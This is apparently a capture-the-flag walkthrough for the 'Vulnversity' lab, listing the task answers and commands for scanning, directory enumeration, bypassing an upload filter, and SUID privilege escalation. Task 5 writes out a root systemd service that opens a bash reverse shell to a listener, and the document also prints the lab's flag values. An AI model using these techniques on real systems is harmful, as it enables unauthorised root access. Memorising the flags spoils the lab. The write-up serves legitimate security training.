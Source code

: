# Vulnversity

```
export IP=10.10.2.137
```

# Task 1 - Deploy Machine

1. No Answer Needed

# Task 2 - Reconnaissance

1. Scan the box, how many ports are open?

```
nmap -sV $IP
```
*ANS = 6*

2. What version of the squid proxy is running on the machine?

*ANS = 3.5.12*

3. How many ports will nmap scan if the flag -p-400 was used?

*ANS = 400*

4. Using the nmap flag -n what will it not resolve?

*ANS = DNS*

5. What is the most likely operating system this machine is running?

*ANS = ubuntu*

6. What port is the web server running on?

*ANS = 3333*

# Task 3 - Locating Directories Using GoBuster


1. What is the directory that has an upload form page?

```
gobuster -u http://$IP:3333 -w /usr/share/wordlists/dirbuster.txt
```
*ANS = /internal*

# Task 4 - Compromise The Webserver

1. Try upload a few file types to the server, what common extension seems to be blocked?

*ANS = .php*

2. Run this attack, what extension is allowed?

*ANS = .phtml*

3. What is the name of the user who manages the webserver?

```
cat /etc/passwd
```
*ANS = bill*

4. What is the user flag?

```
ls
cd home
cd bill
cat user.txt
```
*ANS = 8bd7992fbe8a6ad22a63361004cfcedb*

# Task 5 - Privilege Escalation

1. On the system, search for all SUID files. What file stands out?
*Search for all SUID files, ignore any "Permission Denied"*
```
find * -perm /4000 -print 2>/dev/null
```

2. Become root and get the last flag (/root/root.txt)
*Find a writable directory*
```
find -type d -maxdepth 2 -writable
```
*Create a new service file*
```
touch root.service
```
*Echo payload to root.service file (change $IP to IP of webserver)*
```
echo "[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/$IP/9999 0>&1'

[Install]
WantedBy=multi-user.target" > root.service
```
*Open a new terminal window and connect to webserver using phtml exploit, listen on port 9999*
```
nc -lvnp 9999
```
*Enable the service*
```
/bin/systemctl enable /var/tmp/root.service
```
*Start the service*
```
/bin/systemctl start root
```
*Second terminal is now logged in as root*
```
cat /root/root.txt
```
*ANS = a58ff8579f0a927036d33a9966c7fd5*